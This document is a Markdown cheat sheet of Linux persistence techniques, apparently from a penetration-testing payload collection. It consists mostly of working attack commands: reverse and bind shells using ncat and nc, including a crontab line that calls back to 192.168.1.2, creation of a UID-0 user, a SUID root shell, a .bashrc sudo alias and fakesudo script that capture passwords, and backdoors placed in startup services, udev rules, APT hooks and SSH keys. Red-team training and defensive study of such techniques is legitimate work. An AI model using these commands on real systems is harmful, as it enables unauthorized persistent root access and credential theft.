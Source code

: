 # Linux - Persistence

## Summary

* [Basic reverse shell](#basic-reverse-shell)
* [Add a root user](#add-a-root-user)
* [Suid Binary](#suid-binary)
* [Crontab - Reverse shell](#crontab-reverse-shell)
* [Backdooring a user's bash_rc](#backdooring-an-users-bash-rc)
* [Backdooring a startup service](#backdoor-a-startup-service)
* [Backdooring a user startup file](#backdooring-an-user-startup-file)
* [Backdooring a driver](#backdooring-a-driver)
* [Backdooring the APT](#backdooring-the-apt)
* [Backdooring the SSH](#backdooring-the-ssh)
* [Tips](#tips)
* [Additional Linux Persistence Options](#additional-persistence-options)
* [References](#references)


## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Add a root user

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab - Reverse shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring a user's bash_rc 

(FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```powershell
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```

and create the `fakesudo` script.

```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```


## Backdooring a startup service

```bash
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
```

## Backdooring a user startup file

Linux, write a file in  `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Additional Persistence Options

* [SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004)
* [Compromise Client Software Binary](https://attack.mitre.org/techniques/T1554)
* [Create Account](https://attack.mitre.org/techniques/T1136/)
* [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
* [Create or Modify System Process](https://attack.mitre.org/techniques/T1543/)
* [Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)
* [Event Triggered Execution: Trap](https://attack.mitre.org/techniques/T1546/005/) 
* [Event Triggered Execution](https://attack.mitre.org/techniques/T1546/)
* [Event Triggered Execution: .bash_profile and .bashrc](https://attack.mitre.org/techniques/T1546/004/)
* [External Remote Services](https://attack.mitre.org/techniques/T1133/)
* [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574/)
* [Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)
* [Pre-OS Boot](https://attack.mitre.org/techniques/T1542/)
* [Pre-OS Boot: Bootkit](https://attack.mitre.org/techniques/T1542/003/)
* [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/) 
* [Scheduled Task/Job: At (Linux)](https://attack.mitre.org/techniques/T1053/001/)
* [Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)
* [Server Software Component](https://attack.mitre.org/techniques/T1505/)
* [Server Software Component: SQL Stored Procedures](https://attack.mitre.org/techniques/T1505/001/)
* [Server Software Component: Transport Agent](https://attack.mitre.org/techniques/T1505/002/) 
* [Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/) 
* [Traffic Signaling](https://attack.mitre.org/techniques/T1205/)
* [Traffic Signaling: Port Knocking](https://attack.mitre.org/techniques/T1205/001/)
* [Valid Accounts: Default Accounts](https://attack.mitre.org/techniques/T1078/001/) 
* [Valid Accounts: Domain Accounts 2](https://attack.mitre.org/techniques/T1078/002/)
* [Persistence Via Linux Package Managers](https://pwnshift.github.io/2020/10/01/persistence.html)

## References

* [@RandoriSec - https://twitter.com/RandoriSec/status/1036622487990284289](https://twitter.com/RandoriSec/status/1036622487990284289)
* [https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/](https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/)
* [http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html](http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html)
* [http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/](http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/)
* [Pouki from JDI](#no_source_code)
